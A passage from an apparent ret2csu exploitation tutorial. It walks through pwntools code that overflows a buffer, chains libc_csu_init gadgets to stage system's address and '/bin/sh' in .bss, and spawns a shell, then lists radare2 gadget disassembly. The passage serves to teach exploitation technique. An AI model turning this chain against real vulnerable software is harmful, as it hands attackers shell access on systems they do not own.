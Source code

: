 Then, we can write the address to `system` and `'/bin/sh'` in `.bss`
```python
# ok now we want to do system('/bin/sh'), so read '/bin/sh' and address of system into bss
p.recvuntil('Hello, World\n')
log.info('Writing system address and /bin/sh into bss')
payload = 'a' * offset
payload += csu(read_got, 0, bss, 16, main)
p.send(payload)
system_libc = libc_base + libc.dump('system')
payload = p64(system_libc)
payload += '/bin/sh\x00'
p.send(payload)
```

Finally, call `system` and get shell
```python
# now we can just call system
p.recvuntil('Hello, World\n')
payload = 'a' * offset
payload += csu(bss, bss + 8, 0, 0, main)
p.send(payload)
p.interactive()
```

### Extra tips
Notice that the `csu` payload above uses a whopping 128 bytes. Not so ideal. There are some workarounds to this.

#### Control `rbx` and `rbp` before hand
All we care is to set `rbx = 0`, `rbp = 1`. So we can possibly do this only once and reduce 16 bytes in the future payloads.

#### Send in 2 rounds of input for the exploit
Clearly this exploit has 2 parts, as stated earlier. If we can ensure the integrity of the `r12-15` registers, we can split this exploit into 2 different payloads.

### Other gadgets
All we see in the disassembly above is the supposed instructions to be executed in those addresses. Let's look at the intermediate addresses.

```
[0x00400450]> pi 7 @ 0x4005ea
pop rbx
pop rbp
pop r12
pop r13
pop r14
pop r15
ret
[0x00400450]> pi 6 @ 0x4005eb
pop rbp
pop r12
pop r13
pop r14
pop r15
ret
[0x00400450]> pi 5 @ 0x4005ec
pop r12
pop r13
pop r14
pop r15
ret
[0x00400450]> pi 5 @ 0x4005ed
pop rsp
pop r13
```